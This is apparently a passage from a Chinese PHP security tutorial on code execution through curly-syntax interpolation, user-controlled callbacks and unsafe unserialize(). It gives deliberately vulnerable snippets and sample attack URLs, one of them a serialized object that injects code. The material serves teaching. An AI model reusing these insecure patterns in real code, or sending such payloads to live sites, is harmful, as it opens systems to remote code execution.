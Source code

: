 PHP 的 Curly Syntax 也能导致代码执行，它将执行花括号间的代码，并将结果替换回去。

```php
<?php
$var = "aaabbbccc ${`ls`}";
?>
```

```php
<?php
$foobar = "phpinfo";
${"foobar"}();
?>
```

### 回调函数

很多函数都可以执行回调函数，当回调函数用户可控时，将导致代码执行。

```php
<?php
$evil_callback = $_GET["callback"];
$some_array = array(0,1,2,3);
$new_array = array_map($evil_callback, $some_array);
?>
```

攻击 payload

```
http://www.a.com/index.php?callback=phpinfo
```

### 反序列化

如果 `unserialize()` 在执行时定义了 `__destruct()` 或 `__wakeup()` 函数，则有可能导致代码执行。

```php
<?php
class Example {
  var $var = "";
  function __destruct() {
    eval($this->$var);
  }
}
unserialize($_GET["saved_code"]);
?>
```

攻击 payload

```
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

## PHP 特性
